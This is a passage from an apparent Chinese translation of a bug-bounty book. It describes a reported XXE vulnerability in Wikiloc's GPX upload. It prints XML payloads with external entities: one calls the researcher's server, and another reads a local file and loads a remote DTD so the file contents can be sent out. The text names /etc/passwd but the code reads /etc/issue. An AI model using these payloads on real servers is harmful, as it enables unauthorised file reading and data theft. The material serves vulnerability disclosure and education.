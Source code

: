 Facebook 官方回复

> 重要结论

> 这里有一些重要结论。XML 文件以不同形式和大小出现。要留意接受`.docx`、`.xlsx`、`.pptx`，以及其它的站点。向我之前提到过的那样，有时候你不会直接从 XXE 收到响应，这个示例展示了如何建立服务器来接受请求，它展示了 XXE。

> 此外，像我们的例子中那样，有时报告一开始会被拒绝。拥有信息和耐心和你报告的公司周旋非常重要。尊重他们的决策，同时也解释为什么这可能是个漏洞。

### 3\. Wikiloc XXE

难度：高

URL：`wikiloc.com`

报告链接：`http://www.davidsopas.com/wikiloc-xxe-vulnerability`

报告日期：2015.10

奖金：Swag 

描述：

根据他们的站定，Wikiloc 是个用于发现和分享最佳户外远足、骑车以及许多其他运动记录的地方。有趣的是，他们也让用户通过 XML 文件上传他们自己的记录，这就对例如 David Soaps 之类的骑手非常有吸引力了。

基于他们的 Write Up，David 注册了 Wikiloc，并注意到了 XML 上传点，决定测试它有没有 XXE 漏洞。最开始，它从站点下载了文件来判断 XML 结构，这里是一个`.gpx`文件，并插入了`*<!DOCTYPE foo [<!ENTITY xxe SYSTEM “http://www.davidsopas.com/XXE” > ]>;`。

之后它调用了`.gpx`文件中 13 行的记录名称中的实体。

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://www.davidsopas.com/XXE" > ]> 
<gpx 
version="1.0" 
creator="GPSBabel - http://www.gpsbabel.org" 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns="http://www.topografix.com/GPX/1/0" 
xsi:schemaLocation="http://www.topografix.com/GPX/1/1 http://www.topografix.com/GPX/1/1/gpx.xsd"> 
<time>2015-10-29T12:53:09Z</time> 
<bounds minlat="40.734267000" minlon="-8.265529000" maxlat="40.881475000" maxlon="-8.037170000"/> 
<trk>
<name>&xxe;</name>
<trkseg> 
<trkpt lat="40.737758000" lon="-8.093361000"> 
<ele>178.000000</ele> 
<time>2009-01-10T14:18:10Z</time> 
(...)
```

这产生了发往服务器的 HTTP GET 请求，` GET 144.76.194.66 /XXE/ 10/29/15 1:02PM Java/1.7.0_51`。这有两个原因值得注意，首先，通过使用一个概念调用的简单证明，David 能够确认服务器求解了它插入的 XML 并且进行了外部调用。其次，David 使用现存的 XML 文件，以便时它的内容满足站点所预期的结构。虽然它没有讨论这个，调用它的服务器可能并不是必须的，如果它能够服务`/etc/passwd`文件，并将内容渲染在`<name>`元素中。

在确认 Wikiloc 会生成外部 HTTP 请求后，唯一的疑问就是，是否它能够读取本地文件。所以，它修改了注入的 XML，来让 Wikiloc 向他发送它们的`/etc/passwd`文件内容。

```xml
<!DOCTYPE roottag [ 
<!ENTITY % file SYSTEM "file:///etc/issue"> 
<!ENTITY % dtd SYSTEM "http://www.davidsopas.com/poc/xxe.dtd"> 
%dtd;]> 
<gpx 
version="1.0" 
creator="GPSBabel - http://www.gpsbabel.org" 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns="http://www.topografix.com/GPX/1/0" 
xsi:schemaLocation="http://www.topografix.com/GPX/1/1 http://www.topografix.com/GPX/1/1/gpx.xsd"> 
<time>2015-10-29T12:53:09Z</time> 
<bounds minlat="40.734267000" minlon="-8.265529000" maxlat="40.881475000" maxlon="-8.037170000"/> 
<trk> 
<name>&send;</name> 
```